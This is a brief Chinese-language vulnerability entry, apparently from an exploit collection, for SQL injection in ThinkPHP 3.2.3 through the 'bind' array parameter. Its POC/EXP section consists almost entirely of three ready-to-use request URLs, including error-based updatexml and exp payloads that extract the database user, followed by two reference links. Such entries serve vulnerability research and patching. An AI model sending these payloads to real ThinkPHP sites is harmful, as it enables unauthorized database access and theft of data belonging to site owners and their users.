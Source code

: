 ## 漏洞类型

- SQLI

## 影响范围

Thinkphp 3.2.3

## POC|EXP

```txt
index.php/home/user?id[]=bind&id[]=0%27&money[]=1123&user=liao

index.php/home/user?money[]=1123&user=liao&id[0]=bind&id[1]=0%20and%20(updatexml(1,concat(0x7e,(select%20user()),0x7e),1))

http://localhost/tp32/?name[0]=bind&name[1]=0 and exp(~(select * from(select user())a))
```

## 参考链接


> https://www.anquanke.com/post/id/104847
>
> https://mp.weixin.qq.com/s/4xXS7usHMFNgDTEHcHBcBA?